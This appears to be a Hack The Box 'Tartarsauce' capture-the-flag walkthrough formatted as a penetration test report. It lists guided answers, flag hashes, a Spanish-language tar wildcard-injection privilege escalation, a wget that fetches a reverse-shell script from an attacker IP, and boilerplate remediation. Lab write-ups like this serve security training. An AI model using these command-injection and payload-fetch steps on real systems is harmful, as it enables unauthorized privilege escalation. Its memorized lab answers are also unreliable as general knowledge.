# Offensive Security Assessment Report: Tartarsauce


**Offensive Security Assessment & Penetration Testing Report** conducted on the target environment **Tartarsauce** hosted on **Hack The Box**, executed in accordance with **OffSec PEN-200 (OSCP)** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Tartarsauce |
| **Platform** | Hack The Box |
| **Operating System** | Linux |
| **Difficulty Rating** | Medium |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

> **Assessment Query / Target Milestone:** How many open TCP ports are listening on TartarSauce?

* **Observed Evidence / Output:** 1


* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


> **Assessment Query / Target Milestone:** What is the relative path on the webserver to the blog?

* **Observed Evidence / Output:** /webservices/wp



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What WordPress plugin shows it's version as 2.3.10?

* **Observed Evidence / Output:** gwolle-gb


> **Assessment Query / Target Milestone:** What is the actual version of gwolle-gb running on TartarSauce?

* **Observed Evidence / Output:** 1.5.3


> **Assessment Query / Target Milestone:** What is relative path of the PHP file that has a remote file include vulnerability in this version of gwolle-gb?

* **Observed Evidence / Output:** /webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What user is the webserver running as on TartarSauce?

* **Observed Evidence / Output:** www-data


* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path to the binary that www-data can run as the onuma user on TartarSauce?

* **Observed Evidence / Output:** /bin/tar



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the flag in `tar` that specifies how many bytes to process before running some action?

* **Observed Evidence / Output:** —checkpoint


* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Submit the flag located in the onuma user's home directory.**

* **Observed Evidence / Output:** 70345b57df16f8adc9b46ffe6dcbddca



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.


* **Assessment Step 11:** Command execution output, exploit delivery proof, or auxiliary evidence.


> 
> 
> 
> ### 1️⃣ Preparar el entorno
> 
> ```bash
> bash
> CopiarEditar
> cd /dev/shm; mkdir tar; cd tar
> 
> ```
> 
> 📌 **Explicación**:
> 
> - Se usa `/dev/shm` porque es un directorio **temporal y en memoria**, a menudo with privileges of escritura para todos.
> - Crea y entra al directorio `tar` dentro de `/dev/shm`.
> 
> ---
> 
> ### 2️⃣ Crear archivos de configuración para `tar`
> 
> ```bash
> bash
> CopiarEditar
> echo > '--checkpoint=1'
> echo > '--checkpoint-action=exec=sh shell.sh'
> 
> ```
> 
> 📌 **Explicación**:
> 
> - Se crean **archivos falsos** llamados:
>     - `-checkpoint=1`
>     - `-checkpoint-action=exec=sh shell.sh`
> 
> ⚠️ Truco:
> 
> Cuando `tar` vea esos archivos, interpretará sus **nombres como argumentos válidos**.
> 
> Esto es un abuso del comportamiento de `tar` to execute comandos maliciosos.
> 
> ---
> 
> ### 3️⃣ Descargar el script malicioso
> 
> ```bash
> bash
> CopiarEditar
> wget http://10.10.14.15/shell.sh
> 
> ```
> 
> 📌 **Explicación**:
> 
> - Descarga un script (`shell.sh`) desde tu máquina atacante.
> - Este script debe contener una **reverse shell** o algo que te dé acceso como `onuma`.
> 
> ---
> 
> ### 4️⃣ Ejecutar `tar` con `sudo` como onuma
> 
> ```bash
> bash
> CopiarEditar
> sudo -u onuma /bin/tar cf archive.tar *
> 
> ```
> 
> 📌 **Explicación**:
> 
> - Ejecuta `tar` como el usuario `onuma`.
> - El comando `tar cf archive.tar *` está empacando todos los archivos en `archive.tar`.
> 
> 💥 Lo importante:
> 
> Mientras empaqueta, detecta los archivos llamados `--checkpoint=1` y `--checkpoint-action=exec=sh shell.sh`, y **ejecuta el comando `sh shell.sh` como onuma**.
> 

sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash



* **Assessment Step 12:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path to the Bash script that runs every five minutes on a Systemd timer?

* **Observed Evidence / Output:** /usr/sbin/backuperer


* **Assessment Step 13:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 14:** Command execution output, exploit delivery proof, or auxiliary evidence.


`backuperer` **creates a Tar archive with a copy of the web root before waiting 30 seconds to continue. What is the full path of the directories that the Tar archive is saved to?**

* **Observed Evidence / Output:** /var/tmp


* **Assessment Step 15:** Command execution output, exploit delivery proof, or auxiliary evidence.


**When root unpacks a Tar archive, are permissions settings (including SetUID) maintained?**

* **Observed Evidence / Output:** yes

**Submit the flag located in the root user's home directory.**

* **Observed Evidence / Output:** d62c47e3da58a1fbddea73313b3355b5


* **Assessment Step 16:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 17:** Command execution output, exploit delivery proof, or auxiliary evidence.


* **Assessment Step 18:** Command execution output, exploit delivery proof, or auxiliary evidence.


* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.


[https://www.youtube.com/watch?v=9MeBiP637ZA](https://www.youtube.com/watch?v=9MeBiP637ZA)

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for **OffSec** certification preparation (OSCP, OSEP, OSWE) and commercial penetration testing enablement.
